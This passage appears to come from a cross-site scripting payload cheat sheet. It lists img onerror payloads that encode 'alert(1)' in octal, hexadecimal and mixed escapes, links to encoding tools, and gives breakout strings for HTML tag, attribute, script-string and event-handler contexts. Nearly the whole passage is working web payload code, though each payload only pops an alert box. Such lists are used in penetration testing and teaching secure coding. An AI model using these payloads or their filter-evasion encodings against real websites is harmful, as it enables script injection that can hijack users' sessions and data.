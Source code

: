 -> octal  
```
<img src=x onerror="eval('\141lert(1)')"/>
```
-> hexadecimal  
```
<img src=x onerror="setInterval('\x61lert(1)')"/>
```
-> mix  (uni, hex, octa)  
```
<img src=x onerror="setTimeout('\x61\154\145\x72\164\x28\x31\x29')"/>
```
- https://checkserp.com/encode/unicode/  
- http://www.unit-conversion.info/texttools/octal/  
- http://www.unit-conversion.info/texttools/hexadecimal/  

### Other Examples
#### HTML Tag
```
<div>here</div>
```
->  
```
<svg/onload=alert(1)
```

#### HTML Tag Attributes
```
<input value="here"/></input>
```
 
->  
```
" /><script>alert(1)</script>
```
  
#### Script Tag
```
<script>
    var name="here";
</script>
```
  
->  
```
";alert(1);//
```

#### Event Attributes
```
<button onclick="here;">Okay!</button>
```

->  
```
alert(1)
```
